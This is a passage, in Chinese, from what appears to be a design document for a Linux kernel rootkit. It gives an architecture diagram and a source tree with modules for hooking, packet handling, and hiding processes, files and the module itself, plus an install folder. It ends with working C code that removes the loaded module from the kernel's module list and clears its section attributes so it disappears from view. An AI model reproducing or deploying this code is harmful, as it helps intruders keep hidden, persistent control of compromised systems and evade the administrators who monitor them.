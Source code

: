 ```
│  └─────────────┘ └─────────────┘ └─────────────┘          │
│  ┌─────────────┐ ┌─────────────┐ ┌─────────────┐          │
│  │   rproc.h   │ │   rfile.h   │ │   rmod.h    │          │
│  └─────────────┘ └─────────────┘ └─────────────┘          │
└─────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────┐
│                    系统调用层                               │
│  ┌─────────────┐ ┌─────────────┐ ┌─────────────┐          │
│  │   procfs    │ │   netfilter │ │   syscall   │          │
│  └─────────────┘ └─────────────┘ └─────────────┘          │
└─────────────────────────────────────────────────────────────┘
```

### 2.2 模块组织结构
```
rksrc_20230201/
├── kofile/                    # 内核模块源码
│   ├── main.c                # 主模块入口
│   ├── config.h              # 配置和兼容性定义
│   ├── rhook.h               # 钩子机制实现
│   ├── rpkt.h                # 网络包处理
│   ├── rproc.h               # 进程隐藏
│   ├── rfile.h               # 文件隐藏
│   ├── rmod.h                # 模块隐藏
│   ├── util.h                # 工具函数
│   ├── fs.h                  # 文件系统操作
│   └── LDasm.h               # 汇编指令解析
├── bin32/                    # 用户空间程序
├── install/                  # 安装脚本
└── Makefile                  # 编译配置
```

## 3. 核心技术实现原理

### 3.1 内核模块隐藏机制

#### 3.1.1 模块列表隐藏
```c
void hide(void)
{
    // 保存当前模块在列表中的位置
    mode_prev = THIS_MODULE->list.prev;
    
    // 从模块列表中删除当前模块
    list_del(&THIS_MODULE->list);
    
    // 清理section属性
    kfree(THIS_MODULE->sect_attrs);
    THIS_MODULE->sect_attrs = NULL;
    
    // 保存kobject相关信息
    kobject_prev = &THIS_MODULE->mkobj.kobj;
    _parent_prev = THIS_MODULE->mkobj.kobj.parent;
    _kobj_prev = THIS_MODULE->mkobj.kobj.entry.prev;
}
```
